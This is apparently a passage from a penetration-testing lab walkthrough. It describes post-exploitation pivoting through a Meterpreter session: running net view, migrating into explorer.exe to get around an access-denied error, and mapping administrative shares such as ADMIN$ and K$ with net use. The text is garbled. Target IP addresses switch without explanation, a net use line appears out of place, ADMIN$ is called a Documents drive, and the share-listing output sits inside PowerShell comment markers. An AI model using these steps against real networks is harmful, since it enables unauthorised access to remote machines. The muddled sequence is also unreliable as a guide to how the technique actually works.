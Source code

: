 This scan is the safest way to identify the open ports. We could use an auxiliary TCP port scanning module. But those are very aggressive and can kill your session.

We notice that port 445 is open on the target machine.

### Now, let's use the net view command to find all resources shared by the target_ip machine.

Interact with the meterpreter session again.

```powershell
sessions -i 1
shell
net view 10.0.22.69
```

We have received the Access is denied. message.

Well, currently, we are running as NT AUTHORITY\SYSTEM privilege. Let's migrate the process into explorer.exe and reaccess it.

```powershell
migrate -N explorer.exe
shell
net view 10.0.22.69
```

This time we can see two shared resources, this confirms that pivot target (target_ip) allows Null Sessions, so we can access the shared resources.

net use Z: \\10.185.11.127\ADMIN$

### Now, we can map the shared drive to the target_ip machine using the 'net' command.

Let's map the shared resources, i.e., the Documents and K drive.

```powershell
net use D: \\10.185.11.127\ADMIN$
net use K: \\10.0.22.69\K$

Share name   Resource                        Remark
<#
-------------------------------------------------------------------------------
C$           C:\                             Default share
IPC$                                         Remote IPC
ADMIN$       C:\Windows                      Remote Admin
Users        C:\Users #>
```
